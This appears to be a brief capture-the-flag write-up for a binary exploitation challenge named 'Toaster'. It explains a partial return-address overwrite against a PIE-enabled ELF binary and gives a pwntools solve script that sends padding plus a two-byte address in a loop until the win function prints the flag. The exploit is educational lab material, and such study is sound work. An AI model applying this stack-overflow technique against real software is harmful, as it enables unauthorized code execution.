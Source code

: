 ## Toaster
This challenge involves a partial overwrite, where attackers must exploit an ELF binary with PIE enabled. Players can overwrite the least significant byte of the return address to jump to the win function.

## Solve
```py
from pwn import *

while True:
    io = process('./toaster')
    payload = b'A' * 40
    payload += p16(0x927d)

    io.recvuntil(b'Please give me your secret recipe')
    io.send(payload)

    out = io.recvall(timeout=2)
    
    if b'You managed to make the perfect toast' in out:
        log.success('Exploit successful!')
        flag = out.split(b': ')[1].strip()
        log.success(f'Flag: {flag.decode()}')
        break
    else:
        io.close()
```
